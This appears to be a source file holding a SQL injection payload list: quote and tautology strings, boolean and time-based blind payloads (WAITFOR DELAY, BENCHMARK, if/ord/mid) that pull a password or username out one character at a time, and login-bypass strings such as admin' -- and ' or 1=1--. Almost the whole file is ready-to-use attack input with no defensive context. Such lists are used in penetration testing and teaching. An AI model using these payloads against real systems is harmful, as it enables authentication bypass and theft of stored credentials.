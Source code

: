 # SQLi_Example_Basic
########### Examples basic for SQL injection ############################
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x 
============== blind SQLi ==============
id=1+AND+555=if(ord(mid ((select+pass+from+user+limit+0,1),1,1))=97,555,777)
check for username length:
id=1; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
id=1; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
id=1; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'--
check if 1st character in username containt A, B or C
id=1; IF (ASCII(lower(substring((USER), 2,1)))=97) WAITFOR DELAY '00:00:10'--
id=1; IF (ASCII(lower(substring((USER), 2,1)))=98) WAITFOR DELAY '00:00:10'--
id=1; IF (ASCII(lower(substring((USER), 2,1)))=99) WAITFOR DELAY '00:00:10'--

==========Bypass Login by SQLi ==============
admin' --
admin' #
admin' /*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--

========blind SQL injection check====================
MS SQL: waitfor delay '0:0:10'--
MySQL: BENCHMARK (howmanytimes, do this) 
